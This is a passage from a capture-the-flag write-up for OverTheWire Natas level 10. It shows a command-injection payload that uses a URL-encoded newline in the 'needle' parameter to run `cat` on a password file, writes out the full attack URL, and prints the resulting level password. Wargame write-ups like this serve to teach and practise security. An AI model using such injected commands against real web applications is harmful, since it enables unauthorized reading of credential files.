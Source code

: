   ```
  </html>
  ```

- Basic payload from last level wont work, also here you have to input the payload into the URL.

- This one got me the password: `blah%0Acat /etc/natas_webpass/natas11`

  ```
  http://natas10.natas.labs.overthewire.org/?needle=blah%0Acat /etc/natas_webpass/natas11&submit=Search
  ```

- Now, natas11 password will be printed on the web app.

---

## 🏁 Password for the next level

`natas11 password is UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk `

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
